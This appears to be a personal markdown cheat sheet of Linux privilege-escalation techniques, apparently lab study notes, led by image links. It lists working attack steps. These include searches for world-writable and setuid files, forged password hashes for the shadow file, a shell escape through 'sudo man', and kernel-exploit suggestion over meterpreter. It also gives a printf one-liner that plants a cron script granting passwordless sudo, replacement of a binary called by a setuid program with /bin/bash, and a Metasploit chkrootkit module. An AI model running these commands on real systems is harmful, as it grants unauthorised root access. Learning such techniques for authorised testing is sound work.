








# Weak Permissions

- find / -not -type l -perm -o+w (world-writable files)
- use openssl to generate encrypted linux passwords (can be substituted in shadow file)
	- openssl passwd -<1/2/3/4/5/6> -salt abc <cleartext password>
	- -1 means weakest algorithm, -6 means strongest

# Sudo Misconfig

- sudo -l : programs that current user can run as root
- eg. man > sudo man cat > type !/bin/bash > opens shell as root

  
  
  
- if LD_PRELOAD env in "sudo -l" output, 

  
  
  
  
      

# Kernel Exploit

- https://github.com/mzet-/linux-exploit-suggester
- upload les.sh to target using meterpreter and run the file
- eg. dirtycow exploit creates a new user with escalated perms with a password

# Cron jobs

- look for a script file (.sh) which normal user van edit and can run as root.
- printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
- this will create a script which will allow student user to run sudo without password

# Exploiting setuid programs

- setuid bit looks like:

  
  
- find files:  find / -user root -perm -4000 -exec ls -ldb {} \;
- another way to find file: find / -perm -u=s -type f 2>/dev/null
- this means this binary along with all child processes run with root privs
- investigate binary with - strings ./welcome
- since this binary is calling greetings binary, we delete the ./greetings binary
- and replace with /bin/bash binary
- this will run /bin/bash as root
- run the welcome binary, it should give root shell

# Rootkit scanner

- check for any scripts running that are running chkrootkit as root in "ps aux"
- chkrootkit v0.49 is vulnerable to privesc - exploit/unix/local/chkrootkit
- set CHKROOTKIT /bin/chkrootkit 

  
  